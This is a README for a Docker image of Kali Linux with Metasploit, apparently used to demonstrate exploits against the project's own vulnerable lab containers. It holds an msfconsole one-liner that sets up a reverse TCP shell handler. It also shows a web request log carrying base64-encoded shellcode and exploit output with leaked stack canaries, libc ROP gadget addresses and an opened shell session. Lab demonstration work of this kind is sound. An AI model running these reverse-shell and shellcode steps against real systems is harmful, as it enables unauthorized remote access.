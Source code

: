# kali-metasploit
Containerized Kali Linux with Metasploit Framework installed. Repo is designed to install Polyverse custom modules.

## Build
```
bash build.sh
```

## Usage
```
docker run -it polyverse/kali-metasploit msfconsole
```

## Example
You can use the `-x` switch with msfconsole and then specify all the msf commands you want to run in a single double-quoted argument.
```
docker run -it -p 5555:5555 polyverse/kali-metasploit msfconsole -x "use multi/handler; set payload linux/x86/shell_reverse_tcp; set LHOST $(docker run -it -p 5555:5555 polyverse/kali-metasploit ifconfig eth0 | grep inet | awk '{print $2}'); set LPORT 5555; exploit"
```

### c_exploit.sh
In this example, an attacker container (`polyverse/kali-metasploit`) will get a reverse-shell from the victim container (`polyverse/c_exploit`).

1. In this repo, perform `pv build -r polyverse docker`. This will create the Docker container image `polyverse/kali-metasploit`.
2. `cd ..` to move up a folder and then `git clone https://github.com/polyverse/c_exploit.git`. If you've already cloned, just go to the folder and `git pull`.
3. `pv build docker` to create a new version of `polyverse/c_exploit`.
4. `cd ../kali-metasploit` to get back to the original folder.
5. In one terminal window, launch `docker run -it --rm --privileged -p 8080:80 --name c_exploit polyverse/c_exploit`
6. In another terminial window, run the `./c_exploit.sh` script. You can look at the script to see what it's doing, but it's basically calling the `kali-metasploit` container with sub-scripts to determine ip addresses; it also runs `msfconsole` with the `-x` option that allows you to specify all the arguments for the metasploit module in a single command line.

This is what you should see in the c_exploit window:

```
$ docker run -it --rm --privileged -p 8080:80 --name c_exploit polyverse/c_exploit
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
[Tue Aug 15 07:16:40.745028 2017] [mpm_prefork:notice] [pid 1] AH00163: Apache/2.4.10 (Debian) PHP/7.1.8 configured -- resuming normal operations
[Tue Aug 15 07:16:40.745097 2017] [core:notice] [pid 1] AH00094: Command line: 'apache2 -D FOREGROUND'
172.17.0.1 - - [15/Aug/2017:07:17:01 +0000] "GET /index.php?q=YWFhYWFhYWFhYWFhYWFhYWEw5v///38AAGopWJlqAl9qAV4PBUiXSLkCABWzrBEAAlFIieZqEFpqKlgPBWoDXkj/zmohWA8FdfZqO1iZSLsvYmluL3NoAFNIiedSV0iJ5g8FYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYg== HTTP/1.1" 200 277 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
```

And this is what you should see in the kali-metasploit window:

```
$ ./c_exploit.sh 
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v4.15.5-dev                          ]
+ -- --=[ 1675 exploits - 959 auxiliary - 294 post        ]
+ -- --=[ 489 payloads - 40 encoders - 9 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

RHOST => 192.168.0.15
RPORT => 8080
payload => linux/x64/shell_reverse_tcp
LHOST => 172.17.0.2
LPORT => 5555
[*] Started reverse TCP handler on 172.17.0.2:5555 
[*] start exploit...
[*] address of rsp w/ offset = 7fffffffe630
[*] base64-encoded payload: YWFhYWFhYWFhYWFhYWFhYWEw5v///38AAGopWJlqAl9qAV4PBUiXSLkCABWzrBEAAlFIieZqEFpqKlgPBWoDXkj/zmohWA8FdfZqO1iZSLsvYmluL3NoAFNIiedSV0iJ5g8FYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYg== (Length: 500)
[*] Command shell session 7 opened (172.17.0.2:5555 -> 172.17.0.3:42242) at 2017-08-16 07:01:56 +0000
[*] done exploit.... 
```

At this point, you should have a reverse shell in the kali-metasploit window into the c_exploit container.

### tcp_echo_server.sh
Similar to c-exploit above, running "tcp_echo_server.sh" will result in output something like this:
[*] Started reverse TCP handler on 172.17.0.3:5555 
[*] 172.16.1.31:8080 - Start...
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - VULN STACK FRAME...
[*] 172.16.1.31:8080 - vuln_padding:     ["0000000000000000"] (0x0)
[*] 172.16.1.31:8080 - vuln_canary:      ["00cf1c4b8c5b8b3c"] (0x3c8b5b8c4b1ccf00)
[*] 172.16.1.31:8080 - vuln_saved_bp:    ["d0f280fbfd7f0000"] (0x7ffdfb80f2d0)
[*] 172.16.1.31:8080 - vuln_ret_addr:    ["8a0a400000000000"] (0x400a8a)
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - MAIN STACK FRAME...
[*] 172.16.1.31:8080 - main_argv_save:   ["b8f380fbfd7f0000"] (0x7ffdfb80f3b8)
[*] 172.16.1.31:8080 - main_padding:     ["00000000"]
[*] 172.16.1.31:8080 - main_argc_save:   ["01000000"] (0x1)
[*] 172.16.1.31:8080 - main_cli_len:     ["10000000"] (0x10)
[*] 172.16.1.31:8080 - main_server_port: ["34120000"] (0x1234)
[*] 172.16.1.31:8080 - main_server_fd:   ["03000000"] (0x3)
[*] 172.16.1.31:8080 - main_client_fd:   ["04000000"] (0x4)
[*] 172.16.1.31:8080 - main_server_addr: ["02001f90000000000000000000000000"]
[*] 172.16.1.31:8080 - main_client_addr: ["02009322ac1100010000000000000000"]
[*] 172.16.1.31:8080 - main_unknown:     ["b0f380fbfd7f0000"] (0x7ffdfb80f3b0)
[*] 172.16.1.31:8080 - main_canary:      ["00cf1c4b8c5b8b3c"] (0x3c8b5b8c4b1ccf00)
[*] 172.16.1.31:8080 - main_saved_bp:    ["0000000000000000"] (0x0)
[*] 172.16.1.31:8080 - main_ret_addr:    ["454ff962647f0000"] (0x7f6462f94f45)
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - COMPUTED ADDRESSES...
[*] 172.16.1.31:8080 - a_libc_base:      0x7f6462f73000
[*] 172.16.1.31:8080 - a_stack_free:     0x7ffdfb7ff000
[*] 172.16.1.31:8080 - a_libc_mprotect:  0x7f646306b550
[*] 172.16.1.31:8080 - a_libc_read:      0x7f6463062320
[*] 172.16.1.31:8080 - a_libc_poprdi:    0x7f6463063800
[*] 172.16.1.31:8080 - a_libc_poprsi:    0x7f646305a80b
[*] 172.16.1.31:8080 - a_libc_poprdx:    0x7f6463033d40
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - Done. (If successful, you should get a promptless shell.)
[*] Command shell session 1 opened (172.17.0.3:5555 -> 172.17.0.2:53730) at 2017-09-15 20:38:14 +0000


